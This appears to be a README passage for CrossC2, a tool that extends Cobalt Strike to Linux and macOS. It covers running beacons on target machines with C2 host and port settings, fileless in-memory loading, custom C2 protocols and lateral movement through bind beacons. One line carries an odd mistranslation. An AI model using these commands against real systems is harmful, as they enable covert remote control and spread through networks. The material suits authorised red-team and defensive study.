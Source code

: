 For some reasons, only HTTPS beacon is currently supported.

1. Copy `.cobaltstrike.beacon_keys` from the cs directory on the **server** to the **local directory.**

> CustomExtension:

1. Add `CrossC2Kit_Loader.cna` after downloading CrossC2Kit. It contains other functions such as memory loading. (The file management function of `cs4.x` version is missing. Only use this Loader to re-enable file management)

> Method of running beacon:

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`

## Reference documents: [📖 Wiki](https://gloxec.github.io/CrossC2/en/usage/)

## Module: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/api/)

It adopts the method of loading memory without landing, and supports dynamic libraries (.so/.dylib) and executable files (ELF/MachO).

The type of output information can be freely specified at the time of execution. The return type has been predetermined and can be docked with the native return data type of CS.

<details><summary><b>warning⚠️</b></summary></details>

<details><summary><b>CustomExtension</b></summary></details>


## Custom communication protocol: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/protocol/)

Can more easily realize C2Profile configuration and custom communication protocol TCP / UDP and so on.

## Lateral movement

1. Generate beacon of `Linux-bind` / `MacOS-bind` type
2. The target in the intranet runs `./MacOS-bind.beacon <port>` to start the service
3. Run `connect <targetIP>:<port>` in the session of China Unicom


## Run script in memory

<details><summary><b>Examples</b></summary></details>

# Coming soon
